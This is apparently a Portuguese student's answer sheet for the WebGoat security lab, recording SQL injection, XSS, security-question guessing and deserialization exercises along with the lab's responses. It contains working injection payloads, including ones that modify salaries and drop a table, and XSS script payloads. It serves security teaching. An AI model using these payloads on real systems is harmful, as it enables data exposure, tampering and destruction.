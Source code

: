 #P1.1

Passos seguidos para a reallização da pergunta por ordem de execução:

2)  select department from employees where userid=96134;  
	Resultado: Department markting  
	
3) update employees set department='Sales' where first_name='Tobi';  
 	Resultado: 89762  Tobi  Barnett  Sales  77000  TA9LL1  
 	
4) alter table employees add phone varchar(20);  
	Resultado:  ALTER TABLEemployees ADD phone varchar(20)
	
5) GRANT ALTER TABLE TO 'UnauthorizedUser';  
	Resultado:  GRANT ALTER TABLE TO UnauthorizedUser
	
9) SELECT * FROM user_data WHERE first_name = 'John' and last_name = '' or '1' = '1';  
	Resultado:  Toda a user_data porque  '1' = '1' é sempre verdade
	
10) SELECT * From user_data WHERE Login_Count = 1 and userid= 1 or 1=1;  
	Resultado:  toda a user_data porque  1 = 1 é sempre verdade
	
11) ' OR '1' = '1;    
	Resultado: "You have succeeded!You have successfully compromised the confidentiality of data by viewing internal information that you should not have access to. Well done!"
	
12) '; update employees set salary = 120000 where first_name = 'John
	Resultado:  salario de todos os Johns modificado
	
13) ';drop table access_log;'
	Resultado: tabela apagada



#P2.1

2) Sim. As cookies eram as mesmas.
	
7) ```<script>alert("XSS")</script>  ```  
	Resultado: O campo "Enter your credit card number" era vulnerável
	

10)
  
1. Abrir o Debugger no browser
2. encontrar o ficheiro goatApp/View/GoatRouter.js
3. Inserir na caixa da rota 'test/:param':'testRoute'. o comando start.mvc#test  

	
11) Inserir o URL ```http://localhost:8080/WebGoat/start.mvc#test/<script>webgoat.customjs.phoneHome()<%2Fscript> ``
	Resultado: phone home said {"lessonCompleted":true,"feedback":"Congratulations. You have successfully completed the ass<ignment.","output":"phoneHome Response is 1177239543"}
	
12) 
	1. Solução 4
	2. Solução 3
	3. Solução 1
	4. Solução 2
	5. Solução 4

	
	
#P3

1. "There was an errorwhile sending email. Is webwolf running?"

2. Autenticação:
	1. username: admin; favorite color: green 
	2. username: jerry; favorite color: orange
	3. username: tom;   favorite color: purple







#P4

5) Se colocarmos o script <script>alert("XML")</script> na primeira caixa de texto este aparece, no entanto na segunda esta vulnerabilidade não existe visto que a versão do jquery nesta já previne esta falha.

12) Ao analisar o código fonte da lição conseguimos identificar uma vulnerabilidade. Esta é: o input é desserializado antes de a exceção ser lançada e caso haja um inteiro a função retorna com sucesso. A parte responsavel pela falha é trascrita em seguida:  
```if(ex.getMessage().contains("Integer")){ ```  
```    return success(this).feedback("vulnerable-components.success").build();```    
```} ```  

Para explorar esta vulnerabilidade basta executarmos o seguinte código:  
```<java.lang.Integer>1</java.lang.Integer> ```
